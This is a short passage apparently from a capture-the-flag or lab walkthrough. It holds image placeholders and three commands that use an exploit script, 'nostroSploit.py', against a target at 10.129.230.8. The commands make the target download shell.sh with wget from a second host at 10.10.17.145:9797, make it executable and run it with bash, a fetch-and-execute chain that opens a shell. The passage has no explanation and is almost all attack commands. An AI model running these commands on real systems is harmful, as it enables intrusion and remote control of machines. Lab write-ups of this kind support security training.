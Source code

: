 ```
python nostroSploit.py 10.129.230.8 "wget http://10.10.17.145:9797/shell.sh -O /tmp/shell.sh"
```


![](./IMG/7.png)

![](./IMG/8.png)

```
python nostroSploit.py 10.129.230.8 "chmod +x /tmp/shell.sh"
```

![](./IMG/9.png)
```
python nostroSploit.py 10.129.230.8 "/bin/bash /tmp/shell.sh"
```
